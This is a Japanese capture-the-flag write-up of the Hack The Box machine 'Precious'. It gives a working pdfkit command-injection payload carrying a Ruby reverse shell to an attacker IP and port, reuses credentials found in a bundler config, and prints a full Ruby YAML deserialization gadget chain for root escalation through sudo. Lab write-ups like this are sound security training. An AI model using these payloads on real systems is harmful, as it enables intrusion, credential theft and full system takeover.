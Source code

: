## Precious
IP: 10.10.11.189  
Port: 22/tcp, 80/tcp  
Domain: precious.htb  
Sub Domain: no  
  
nmapでポートスキャンを行う。  
![](images/Precious/1.png)  

80番ポートが開いているので、ブラウザでアクセスを行う。  
![](images/Precious/2.png)  

Locationヘッダーに`http://precious.htb/`がセットされており、  
リダイレクトされるが、DNSに`precious.htb`に対応するIPアドレスが設定されていないため、  
アクセスができない。  
名前解決を行う順番は`/etc/nsswitch.conf`の`hosts:`に定義されており、  
私の環境では、ファイル(/etc/hosts) -> mdns4 -> dnsという順番である。  
`/etc/hosts`にドメイン`precious.htb`に対応するIPアドレス`10.10.11.189`を設定する。  
再度、ブラウザからアクセスしてみる。

![](images/Precious/3.png)

入力フォームに適当な値を入れSubmitをすると、  
urlパラメータに乗せられてサーバーにurlを届けるみたい。  

自分の環境でWebサーバーを建てて、urlに自分のipアドレスを入れてみる。  
![](images/Precious/4.png)

返答が返ってきたと同時に、PDfファイルがダウンロードされた。  
ファイルを開く前に私は`string`コマンドや`file`コマンドを実行して、  
中身の構造を調べる習慣があるので実行する。  
![](images/Precious/5.png)

気になる記述がある。  
==pdfkit v0.8.6==  
ソフト名やバージョンの記述を見つけたら、既知の脆弱性が存在しないかを調べる。  
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
pdfkitパッケージのバージョンが`<0.8.7.2 `の場合に、URLが適切にサイタイジングされていないため、  
コマンドインジェクションの脆弱性が存在するらしい。  

Exploit Codeを探すと、以下のような形で行うらしい。  
```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait... 
```
なので、以下のような形でurlパラメータにセットしてリバースシェルを狙う。  
```
%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("ip",port))'`
```
`ruby`ユーザーでリバースシェルを獲得できた。  
![](images/Precious/7.png)

安定なシェルを行うため、`ssh-keygen`を実行し、秘密鍵を自分の環境にコピーしSSH接続を行う。  
探索していくと、rubyユーザーのホームディレクトリの隠しディレクトリに`config`というファイルを見つける。  
この`config`ファイルというのは、Rubyのバージョン管理ツールである`bundler`で使用される設定ファイルである。  
中身を見ると、`user:password`の形で保存されており、この資格情報を使いhenryユーザーにログインできそうである。  
![](images/Precious/8.png)  


資格情報を使い、henryユーザーにログインを行う。  
ここで`user.txt`のuserフラグをゲットすることができる。  

続いて権限昇格を行うため、  
SUIDの設定不備を利用したものや、cronを利用したものなどたくさん存在する。  
詳しくはこちら(https://book.hacktricks.xyz/linux-hardening/privilege-escalation)  

そして、`sudo -l`の結果でroot権限で特定のコマンドを実行することが可能な設定がされているのを見つける。  
`sudo`コマンドの`-l`オプションというのは、sudoを実行するユーザーに許可されているコマンドを一覧表示するというものだ。  
![](images/Precious/10.png)
`/opt/update_dependencies.rb`のRubyファイルを見てみると、  
```
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
と記述されており、中でも`YAML.load(File.read("dependencies.yml"))`のコードに不備が存在する。  
YAMLによるDeserializationの欠陥があり、以下のPayloadでコマンドを実行することができる。  
参考(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: <command>
         method_id: :resolve
```

`YAML.load(File.read("dependencies.yml"))`というように、`dependencies.yml`ファイルを読み込むので、  
先程のPayloadの`git_set`に`cat /root/root.txt > /home/henry/output`というようにしてrootフラグをゲットした。  
